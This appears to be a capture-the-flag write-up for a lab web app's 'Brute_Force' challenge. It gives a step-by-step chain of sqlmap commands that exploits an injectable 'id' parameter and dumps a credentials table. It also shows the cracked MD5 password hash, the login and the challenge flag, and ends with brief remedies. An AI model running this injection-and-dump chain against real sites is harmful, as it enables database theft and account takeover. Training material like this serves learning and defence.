 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlpmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#"
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dbs
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --tables -D Member_Brute_Force
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --columns -D Member_Brute_Force -T db_default
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force -T db_default
    options [Y, Y, D, N];

usernames with cracked passwords
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
| 2  | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
+----+----------+-------------------------------------------+
If we login using these in http://192.168.43.251/index.php?page=signin we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
1. Again preapred statements would have prevented us form getting this sort of information
2. However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :\.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc